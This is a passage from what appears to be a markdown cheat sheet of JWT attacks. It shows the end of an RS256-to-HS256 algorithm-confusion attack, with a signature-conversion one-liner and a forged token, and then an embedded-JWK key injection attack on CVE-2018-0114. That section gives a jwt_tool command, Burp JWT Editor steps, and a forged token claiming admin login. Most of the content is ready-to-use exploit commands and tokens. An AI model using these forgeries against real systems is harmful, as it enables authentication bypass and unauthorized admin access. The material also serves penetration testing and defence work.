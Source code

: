        (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
        ```

    3. Convert signature (Hex to "base64 URL")

        ```powershell
        $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
        ```

    4. Add signature to edited payload

        ```powershell
        [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
        eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
        ```


### JWT Signature - Key Injection Attack (CVE-2018-0114)

> A vulnerability in the Cisco node-jose open source library before 0.11.0 could allow an unauthenticated, remote attacker to re-sign tokens using a key that is embedded within the token. The vulnerability is due to node-jose following the JSON Web Signature (JWS) standard for JSON Web Tokens (JWTs). This standard specifies that a JSON Web Key (JWK) representing a public key can be embedded within the header of a JWS. This public key is then trusted for verification. An attacker could exploit this by forging valid JWS objects by removing the original signature, adding a new public key to the header, and then signing the object using the (attacker-owned) private key associated with the public key embedded in that JWS header.


**Exploit**:

* Using [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

    ```ps1
    python3 jwt_tool.py [JWT_HERE] -X i
    ```

* Using [portswigger/JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd)
    1. Add a `New RSA key`
    2. In the JWT's Repeater tab, edit data
    3. `Attack` > `Embedded JWK`

**Deconstructed**:

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "jwk": {
    "kty": "RSA",
    "kid": "jwt_tool",
    "use": "sig",
    "e": "AQAB",
    "n": "uKBGiwYqpqPzbK6_fyEp71H3oWqYXnGJk9TG3y9K_uYhlGkJHmMSkm78PWSiZzVh7Zj0SFJuNFtGcuyQ9VoZ3m3AGJ6pJ5PiUDDHLbtyZ9xgJHPdI_gkGTmT02Rfu9MifP-xz2ZRvvgsWzTPkiPn-_cFHKtzQ4b8T3w1vswTaIS8bjgQ2GBqp0hHzTBGN26zIU08WClQ1Gq4LsKgNKTjdYLsf0e9tdDt8Pe5-KKWjmnlhekzp_nnb4C2DMpEc1iVDmdHV2_DOpf-kH_1nyuCS9_MnJptF1NDtL_lLUyjyWiLzvLYUshAyAW6KORpGvo2wJa2SlzVtzVPmfgGW7Chpw"
  }
}.
{"login":"admin"}.
[Signed with new Private key; Public key injected]
```
